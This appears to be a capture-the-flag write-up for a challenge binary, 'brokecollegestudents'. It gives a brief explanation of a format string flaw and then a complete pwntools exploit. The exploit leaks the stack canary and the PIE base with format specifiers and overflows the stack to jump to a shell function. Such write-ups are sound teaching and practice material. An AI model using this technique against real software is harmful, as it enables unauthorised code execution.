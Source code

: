 ### There is a format string vulnerability in the catch() function. Also, PIE is enabled and there is a stack canary We can exploit the format string vulnerability to leak the stack canary and the base address of the elf
```
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./brokecollegestudents")
context.log_level = "debug"
p = process("./brokecollegestudents")
#gdb.attach(p)
def initRecv():
    p.sendlineafter("Choice: ","1")
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline("1")

initRecv()

# Leaking the Stack Canary
p.sendlineafter("name","%9$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]
canary = hex(int(leak,16))
log.info("Canary: {}".format(canary))
canary = int(canary,16)
initRecv()

#Leaking the base address of ELF
# I found this fmt payload after lots of debugging.
p.sendlineafter("name","%28$p")
for i in range(2):
    p.recvline()
leak = p.recvuntil("What").decode()[:-4]

leak = int(leak,16)
elf.address = leak-0x18f6
log.info("elf base address: {}".format(hex(elf.address)))
initRecv()
shell = elf.address + 0x14ec
payload = b'a'*24 + p64(canary) + b'a'*8+p64(shell)
p.sendline(payload)
p.interactive()
```
